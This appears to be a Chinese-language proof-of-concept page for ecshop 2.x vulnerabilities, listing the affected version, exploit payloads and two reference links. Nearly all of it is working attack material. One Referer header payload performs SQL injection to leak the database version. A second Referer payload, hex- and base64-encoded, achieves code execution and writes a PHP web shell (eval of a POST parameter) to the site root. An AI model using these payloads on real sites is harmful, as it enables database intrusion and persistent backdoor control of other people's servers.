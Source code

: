 
## Affected Version  

**ecshop2.x**

## POC 

**Referer处。**

### 注入
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
![](http://opmi2ydgh.bkt.clouddn.com//18-9-3/61896860.jpg)

### 代码执行

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}

 在网站根目录下生成1.php的一句话。

    assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTMzN10pOyA/Picp'));//}xxx
    file_put_contents('1.php','<?php eval($_POST[1337]); ?>')

## References

[ecshop2.x代码执行](http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/)

[ECShop全系列版本远程代码执行高危漏洞分析](https://xz.aliyun.com/t/2689)


